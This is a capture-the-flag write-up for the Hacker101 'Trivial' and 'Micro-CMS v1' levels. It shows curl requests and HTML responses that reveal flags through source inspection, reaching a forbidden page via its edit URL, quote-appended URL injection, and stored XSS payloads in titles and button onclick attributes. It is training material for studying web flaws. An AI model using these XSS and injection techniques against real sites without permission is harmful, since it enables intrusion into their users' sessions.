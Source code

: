 ## TRIVIAL : little something to get you started 
being trivial flag must be in the source, so using `curl`
- `$ curl <url-instance>`

gives the source :
```
<!doctype html>
<html>
	<head>
		<style>
			body {
				background-image: url("background.png");
			}
		</style>
	</head>
	<body>
		<p>Welcome to level 0.  Enjoy your stay.</p>
	</body>
</html>
```
notice `background-image: url("background.png");`
again with `/background.png`
- `$ curl <url-instance>/background.png`

gives :
`^FLAG^<flag>$FLAG$` 
here `<flag>` is a placeholder to the real flag.
* * *
## EASY : Micro-CMS v1
on thinkering with source and ui, structure ::
page urls :: `<url-instance>/page/<page-number>`
edit page urls :: `<url-instance>/page/edit/<page-number>`
- **FLAG 1**
    editing and traversing pages in order fetches 'NOT FOUND',
    - `$ curl <url-instance>/page/<page-number>`
        ```
        <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
        <title>404 Not Found</title>
        <h1>Not Found</h1>
        <p>The requested URL was not found on the server.  If you entered the URL manually please check your spelling and try again.</p>
        ```
    BUT, on one of the pages fetches 'FORBIDDEN',
    - `$ curl <url-instance>/page/<page-number>`
        ```
        <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
        <title>403 Forbidden</title>
        <h1>Forbidden</h1>
        <p>You don't have the permission to access the requested resource. It is either read-protected or not readable by the server.</p>
        ```
    hence, we cant really see what there is on this page so as a work around we'll change url in order to edit the page,
    - `url <url-instance>/page/edit/<page-number-forbidden`
        ```
        <!doctype html>
        <html>
	        <head>
		        <title>Edit page</title>
	        </head>
	        <body>
		        <a href="../../">&lt;-- Go Home</a>
		        <h1>Edit Page</h1>
		        <form method="POST">
			        Title: <input type="text" name="title" value="Private Page"><br>
			        <textarea name="body" rows="10" cols="80">My secret is ^FLAG^<flag>$FLAG$</textarea><br>
			        <input type="submit" value="Save">
			        <div style="font-style: italic"><a href="https://github.com/adam-p/markdown-here/wiki/Markdown-Cheatsheet">Markdown</a> is supported, but scripts are not</div>
		        </form>
	       </body>
        </html>
        <!--flag in <textarea> under holder <flag>-->
        ```
- **FLAG 2**
    simple injection on url under `/edit/` with `'`
    - `$ curl <url-instance>/page/edit/<any-page-number>\'`
    - `$ curl <url-instance>/page/edit/<any-pagenumber>\'"awd"sasatsgasgas`
    turns out if characters are appended after `'` doesn't change much in output!
    
    these commands outputs gives required flag.
- **FLAG 3**
    Micro-CMS is vulnerable to XSS so after trying for a while xss does comes out ahead for remaining flags.
    the way this page is created it mitigates xss injection on `<textarea>` and actively changes `<script></script>` to `<scrubbed></scrubbed>`
    - `$ curl <url-instance>/page/edit/1`
        ```
        <!doctype html>
        <html>
	        <head>
		        <title>Edit page</title>
	        </head>
	        <body>
		        <a href="../../">&lt;-- Go Home</a>
		        <h1>Edit Page</h1>
		        <form method="POST">
			        Title: <input type="text" name="title" value="Testing"><br>
			        <textarea name="body" rows="10" cols="80">&lt;script&gt;alert('slert')&lt;/script&gt;</textarea><br>
			        <input type="submit" value="Save">
			        <div style="font-style: italic"><a href="https://github.com/adam-p/markdown-here/wiki/Markdown-Cheatsheet">Markdown</a> is supported, but scripts are not</div>
		        </form>
	        </body>
        </html>
        ```
    XSS in `<textarea>` changes to 
    - `$ curl <url-instance>/page/1`
        ```
        <!doctype html>
        <html>
	        <head>
		        <title>Testing</title>
	        </head>
	        <body>
		        <a href="../">&lt;-- Go Home</a><br>
		        <a href="edit/1">Edit this page</a>
		        <h1>Testing</h1>
                <scrubbed>alert('slert')</scrubbed>
	        </body>
        </html>
        ```
    furthermore, if we use same XSS on `Title : <input..>` it works( requires to navigate to base url after saving)!
    - `$ curl <url-instance>/page/edit/1`
        ```
        <!doctype html>
        <html>
	        <head>
		        <title>Edit page</title>
	        </head>
	        <body>
		        <a href="../../">&lt;-- Go Home</a>
		        <h1>Edit Page</h1>
		        <form method="POST">
			        Title: <input type="text" name="title" value="&lt;script&gt;alert('slert')&lt;/script&gt;"><br>
			        <textarea name="body" rows="10" cols="80">&lt;script&gt;alert('slert')&lt;/script&gt; </textarea><br>
			        <input type="submit" value="Save">
			        <div style="font-style: italic"><a href="https://github.com/adam-p/markdown-here/wiki/Markdown-Cheatsheet">Markdown</a> is supported, but scripts are not</div>
		        </form>
	        </body>
        </html>
        ```
    payload in form's `<input value="..">`
    - `$ curl <url-instance>/page/1`
        ```
        <!doctype html>
        <html>
	        <head>
		        <title>&lt;script&gt;alert('slert')&lt;/script&gt;</title>
	        </head>
	        <body>
		        <a href="../">&lt;-- Go Home</a><br>
		        <a href="edit/1">Edit this page</a>
		        <h1>&lt;script&gt;alert('slert')&lt;/script&gt;</h1>
                <scrubbed>alert('slert')</scrubbed>
	        </body>
        </html>
        ```
    to finally obtain the flag navigate back to base url to Micro-CMS url, giving flag as an alert
    - `$ curl <url-instance>`
        ```
        <!doctype html>
        <html>
	        <head>
		        <title>Micro-CMS</title>
	        </head>
	        <body>
		        <ul>
                    <li><a href="page/1"><script>alert("^FLAG^<flag>$FLAG$");</script><script>alert('slert')</script></a></li>
                    <li><a href="page/2">Markdown Test</a></li>
                    <li><a href="page/9">awd</a></li>
		        </ul>
		        <a href="page/create">Create a new page</a>
	        </body>
        </html>
        <!--flag under <href> with <flag> placeholder-->
        ```
- **FLAG 4**
    XSS can be injected to buttons, under edit pages insert payload
    `<button onclick=alert("xss")>call</button>`
    - `$ curl <url-instance>/page/edit/10`
        ``` 
        <!doctype html>
        <html>
	        <head>
		        <title>Edit page</title>
	        </head>
	        <body>
		        <a href="../../">&lt;-- Go Home</a>
		        <h1>Edit Page</h1>
		        <form method="POST">
			        Title: <input type="text" name="title" value="button"><br>
			        <textarea name="body" rows="10" cols="80">&lt;button onclick=alert(&quot;aha&quot;)&gt;call&lt;/button&gt;</textarea><br>
			        <input type="submit" value="Save">
			        <div style="font-style: italic"><a href="https://github.com/adam-p/markdown-here/wiki/Markdown-Cheatsheet">Markdown</a> is supported, but scripts are not</div>
		        </form>
	        </body>
        </html>
        ```
    button xss onclick function calls alert!
    - `$ curl <url-instance>/page/10`
        ```
        <!doctype html>
        <html>
	        <head>
		        <title>button</title>
	        </head>
	        <body>
		        <a href="../">&lt;-- Go Home</a><br>
		        <a href="edit/10">Edit this page</a>
		        <h1>button</h1>
                <p><button flag="^FLAG^<flag>$FLAG$" onclick=alert("aha")>call</button></p>
	        </body>
        </html>
        <!--flag under placeholder <flag>-->
        ```
* * *
